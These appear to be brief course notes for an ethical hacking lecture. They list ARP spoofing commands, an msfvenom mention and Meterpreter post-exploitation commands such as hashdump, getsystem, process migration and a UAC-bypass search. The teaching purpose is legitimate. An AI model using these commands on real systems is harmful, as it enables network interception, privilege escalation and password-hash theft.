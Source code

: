 ### spoof

```bash
arspoof -t 10.35.1.199 10.35.1.2
```


In another terminal

```bash
arspoof -t 10.35.1.2 10.35.1.199
```


## Social Engineering Attack

```bash
msfvenom
```


## System Software Vulnerabilities & Application Software Vulnerabilities

```
getuid
```

```
getsystem
```

```
hashdump
```

```
ps
```

```
migrate <Pid>
```

```
sessions
```

To get Admin prvileges

```
search bypassuac
```

# Ethical Hacking Unit 1 Lecture 5


## Wireshark
